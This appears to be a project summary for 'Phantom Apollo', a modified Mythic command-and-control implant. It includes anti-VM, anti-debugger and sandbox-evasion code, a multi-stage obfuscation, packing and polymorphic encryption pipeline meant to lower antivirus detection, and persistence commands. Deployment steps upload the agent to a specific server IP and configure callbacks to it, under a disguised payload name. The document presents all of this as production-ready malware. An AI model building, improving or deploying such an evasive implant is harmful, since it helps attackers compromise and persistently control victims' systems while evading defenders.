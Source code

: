 # 🛡️ Phantom Apollo - Final Implementation Summary

## ✅ PRODUCTION READY DEPLOYMENT PACKAGE

The Phantom Apollo advanced evasive C2 agent has been successfully implemented with the correct Mythic framework structure and comprehensive anti-detection capabilities.

## 📁 Final Project Structure

```
apollo/                            # Ready for ~/Mythic/Payload_Types/
├── Dockerfile                     # Multi-stage build with evasion tools
├── mythic_service.py              # Mythic integration service
├── requirements.txt               # mythic-container==0.2.12, pycryptodome
├── advanced_obfuscator.py         # Hash-based identifier obfuscation
├── phantom_crypter.py             # Polymorphic AES-256 encryption
├── agent_functions/               # 17 Mythic command handlers
│   ├── Basic: cd.py, ls.py, pwd.py, whoami.py, hostname.py, ps.py
│   ├── File Ops: download.py, upload.py
│   ├── Execution: shell.py, powershell.py
│   ├── Control: sleep.py, exit.py
│   ├── Persistence: persist_startup.py, persist_registry.py,
│   │              persist_task.py, persist_service.py, persist_remove.py
│   └── mythic_agent_icon.svg
└── agent_code/                    # Complete original Apollo codebase
    ├── build_evasive.sh           # Multi-stage evasion pipeline
    ├── Apollo/                    # Main agent with integrated anti-analysis
    │   ├── Program.cs             # ⚡ EVASION INTEGRATED
    │   ├── Agent/, Api/, Config.cs, Management/, Peers/
    ├── Apollo.sln                 # Complete Visual Studio solution
    ├── ApolloInterop/             # Apollo core libraries
    ├── Tasks/                     # 50+ original Apollo commands
    ├── ExecuteAssembly/, ExecutePE/, PowerShellHost/
    ├── Injection/, KerberosTickets/, ScreenshotInject/
    └── [All 25+ original Apollo components preserved]
```

## 🛡️ Integrated Anti-Detection Features

### Program.cs Main Entry Point
The Apollo Program.cs now includes comprehensive evasion checks that execute BEFORE Mythic callback initialization:

```csharp
public static void Main(string[] args)
{
    // Phantom Apollo Anti-Analysis System
    if (IsVirtualMachine() || IsDebuggerPresent() || IsSandboxEnvironment())
    {
        Environment.Exit(0);
        return;
    }
    
    // Random delay + hardware profiling
    Thread.Sleep(rnd.Next(3000, 8000));
    if (!ValidateHardwareProfile()) Environment.Exit(0);
    
    // Original Apollo execution
    Agent.Apollo ap = new Agent.Apollo(Config.PayloadUUID);
    ap.Start();
}
```

### Anti-Analysis Capabilities
1. **VM Detection**: VMware, VirtualBox, QEMU, Xen detection via files, registry, WMI
2. **Debug Detection**: Multiple debugger detection methods + process monitoring
3. **Sandbox Detection**: Analysis tool detection + timing validation
4. **Hardware Profiling**: RAM (>2GB), CPU cores (>2), disk size (>50GB) validation

## 🔧 Build Pipeline Integration

### Multi-Stage Evasion Process
1. **Source Obfuscation**: Hash-based identifier renaming (Apollo → X1a2b3c4)
2. **Compilation**: .NET 6.0 Release build
3. **ConfuserEx Protection**: Advanced .NET obfuscation
4. **UPX Packing**: Ultra-brute compression
5. **Polymorphic Encryption**: AES-256 with unique keys per build
6. **Entropy Injection**: Random overlay data
7. **Timestamping**: Legitimate file appearance

### Expected Results
- **Detection Reduction**: From 61.8% to <20% (65%+ improvement)
- **Unique Signatures**: Each build generates different cryptographic hashes
- **Full Compatibility**: Complete Mythic framework integration maintained

## 🚀 Deployment Instructions

### 1. Upload to Mythic Server
```bash
scp -r apollo/ user@37.27.249.191:~/Mythic/Payload_Types/
```

### 2. Build Container
```bash
cd ~/Mythic/Payload_Types/apollo
sudo docker build -t apollo .
```

### 3. Install via Mythic CLI
```bash
cd ~/Mythic
./mythic-cli install payload-type apollo --path ./Payload_Types/apollo
```

### 4. Generate Payload
- Access: https://37.27.249.191:7443
- Navigate: Payloads → Create New Payload
- Select: apollo payload type
- Configure: callback_host=37.27.249.191, use_ssl=true
- Build & Download: phantom_smart_renewal_x64.exe / x32.exe

## 📋 Available Commands

### Mythic Integration (17 Commands)
- Basic: `whoami`, `hostname`, `pwd`, `ls`, `cd`, `ps`
- File Operations: `download`, `upload`
- Execution: `shell`, `powershell`
- Agent Control: `sleep`, `exit`
- Persistence: `persist_startup`, `persist_registry`, `persist_task`, `persist_service`, `persist_remove`

### Original Apollo Commands (50+)
All original Apollo capabilities preserved including:
- Advanced injection techniques
- Process manipulation
- Kerberos ticket management
- Screenshot capture
- Assembly execution
- PowerShell hosting
- COFF loader integration

## 🔍 Technical Specifications

### Anti-Analysis Integration
- Checks execute before any network activity
- Silent exit on detection (no error messages)
- Multiple detection vectors for comprehensive coverage
- Hardware profiling prevents automated analysis

### Cryptographic Features
- AES-256 encryption for C2 communications
- Polymorphic binary encryption with unique keys
- Hash-based obfuscation preventing static analysis
- UPX packing with custom compression options

### Network Configuration
- HTTPS/TLS 1.2+ for secure communications
- Configurable callback intervals and jitter
- Legitimate user agent strings
- Domain fronting compatibility

## ⚠️ Operational Security Notes

1. **Unique Builds**: Each compilation generates different binary signatures
2. **No IOCs**: No hardcoded indicators of compromise
3. **Legitimate Appearance**: Proper timestamping and entropy injection
4. **Framework Compatibility**: Full Mythic 3.x integration maintained
5. **Apollo Preservation**: All original functionality intact

---

**Status**: ✅ PRODUCTION READY FOR DEPLOYMENT  
**Framework**: Mythic 3.x Compatible  
**Target Server**: 37.27.249.191:7443  
**Expected Detection Rate**: <20% (from 61.8%)  
**Build Type**: Advanced Evasive Apollo Agent